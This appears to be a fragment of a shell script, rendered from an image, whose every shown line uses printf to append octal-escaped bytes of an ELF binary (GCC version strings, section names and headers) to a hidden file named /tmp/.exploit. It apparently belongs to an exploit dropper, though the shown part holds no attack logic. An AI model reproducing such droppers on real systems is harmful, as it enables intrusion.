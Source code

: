     printf "\001\000\000\000\360\377\377\157\066\002\000\000\372\377\377\157" >>/tmp/.exploit
    printf "\001\000\000\000\000\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\000\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\000\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\000\000\000\000\314\024\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\366\002\000\000\006\003\000\000\026\003\000\000" >>/tmp/.exploit
    printf "\046\003\000\000\000\107\103\103\072\040\050\107\116\125\051\040" >>/tmp/.exploit
    printf "\064\056\061\056\062\040\062\060\060\070\060\067\060\064\040\050" >>/tmp/.exploit
    printf "\122\145\144\040\110\141\164\040\064\056\061\056\062\055\065\065" >>/tmp/.exploit
    printf "\051\000\000\107\103\103\072\040\050\107\116\125\051\040\064\056" >>/tmp/.exploit
    printf "\061\056\062\040\062\060\060\070\060\067\060\064\040\050\122\145" >>/tmp/.exploit
    printf "\144\040\110\141\164\040\064\056\061\056\062\055\065\065\051\000" >>/tmp/.exploit
    printf "\000\107\103\103\072\040\050\107\116\125\051\040\064\056\061\056" >>/tmp/.exploit
    printf "\062\040\062\060\060\070\060\067\060\064\040\050\122\145\144\040" >>/tmp/.exploit
    printf "\110\141\164\040\064\056\061\056\062\055\065\065\051\000\000\107" >>/tmp/.exploit
    printf "\103\103\072\040\050\107\116\125\051\040\064\056\061\056\062\040" >>/tmp/.exploit
    printf "\062\060\060\070\060\067\060\064\040\050\122\145\144\040\110\141" >>/tmp/.exploit
    printf "\164\040\064\056\061\056\062\055\065\065\051\000\000\107\103\103" >>/tmp/.exploit
    printf "\072\040\050\107\116\125\051\040\064\056\061\056\062\040\062\060" >>/tmp/.exploit
    printf "\060\070\060\067\060\064\040\050\122\145\144\040\110\141\164\040" >>/tmp/.exploit
    printf "\064\056\061\056\062\055\065\065\051\000\000\056\163\171\155\164" >>/tmp/.exploit
    printf "\141\142\000\056\163\164\162\164\141\142\000\056\163\150\163\164" >>/tmp/.exploit
    printf "\162\164\141\142\000\056\147\156\165\056\150\141\163\150\000\056" >>/tmp/.exploit
    printf "\144\171\156\163\171\155\000\056\144\171\156\163\164\162\000\056" >>/tmp/.exploit
    printf "\147\156\165\056\166\145\162\163\151\157\156\000\056\147\156\165" >>/tmp/.exploit
    printf "\056\166\145\162\163\151\157\156\137\162\000\056\162\145\154\056" >>/tmp/.exploit
    printf "\144\171\156\000\056\162\145\154\056\160\154\164\000\056\151\156" >>/tmp/.exploit
    printf "\151\164\000\056\164\145\170\164\000\056\146\151\156\151\000\056" >>/tmp/.exploit
    printf "\162\157\144\141\164\141\000\056\145\150\137\146\162\141\155\145" >>/tmp/.exploit
    printf "\000\056\143\164\157\162\163\000\056\144\164\157\162\163\000\056" >>/tmp/.exploit
    printf "\152\143\162\000\056\144\141\164\141\056\162\145\154\056\162\157" >>/tmp/.exploit
    printf "\000\056\144\171\156\141\155\151\143\000\056\147\157\164\000\056" >>/tmp/.exploit
    printf "\147\157\164\056\160\154\164\000\056\142\163\163\000\056\143\157" >>/tmp/.exploit
    printf "\155\155\145\156\164\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\000\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\000\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\033\000\000\000\366\377\377\157\002\000\000\000\264\000\000\000" >>/tmp/.exploit
    printf "\264\000\000\000\074\000\000\000\002\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\004\000\000\000\004\000\000\000\045\000\000\000\013\000\000\000" >>/tmp/.exploit
    printf "\002\000\000\000\360\000\000\000\360\000\000\000\300\000\000\000" >>/tmp/.exploit
    printf "\003\000\000\000\001\000\000\000\004\000\000\000\020\000\000\000" >>/tmp/.exploit
    printf "\055\000\000\000\003\000\000\000\002\000\000\000\260\001\000\000" >>/tmp/.exploit
    printf "\260\001\000\000\205\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\001\000\000\000\000\000\000\000\065\000\000\000\377\377\377\157" >>/tmp/.exploit
    printf "\002\000\000\000\066\002\000\000\066\002\000\000\030\000\000\000" >>/tmp/.exploit
    printf "\002\000\000\000\000\000\000\000\002\000\000\000\002\000\000\000" >>/tmp/.exploit
    printf "\102\000\000\000\376\377\377\157\002\000\000\000\120\002\000\000" >>/tmp/.exploit
    printf "\120\002\000\000\060\000\000\000\003\000\000\000\001\000\000\000" >>/tmp/.exploit
    printf "\004\000\000\000\000\000\000\000\121\000\000\000\011\000\000\000" >>/tmp/.exploit
    printf "\002\000\000\000\200\002\000\000\200\002\000\000\050\000\000\000" >>/tmp/.exploit
    printf "\002\000\000\000\000\000\000\000\004\000\000\000\010\000\000\000" >>/tmp/.exploit
    printf "\132\000\000\000\011\000\000\000\002\000\000\000\250\002\000\000" >>/tmp/.exploit
    printf "\250\002\000\000\040\000\000\000\002\000\000\000\011\000\000\000" >>/tmp/.exploit
    printf "\004\000\000\000\010\000\000\000\143\000\000\000\001\000\000\000" >>/tmp/.exploit
    printf "\006\000\000\000\310\002\000\000\310\002\000\000\027\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\000\000\000\000\004\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\136\000\000\000\001\000\000\000\006\000\000\000\340\002\000\000" >>/tmp/.exploit
    printf "\340\002\000\000\120\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\004\000\000\000\004\000\000\000\151\000\000\000\001\000\000\000" >>/tmp/.exploit
    printf "\006\000\000\000\060\003\000\000\060\003\000\000\124\001\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\000\000\000\000\020\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\157\000\000\000\001\000\000\000\006\000\000\000\204\004\000\000" >>/tmp/.exploit
    printf "\204\004\000\000\034\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit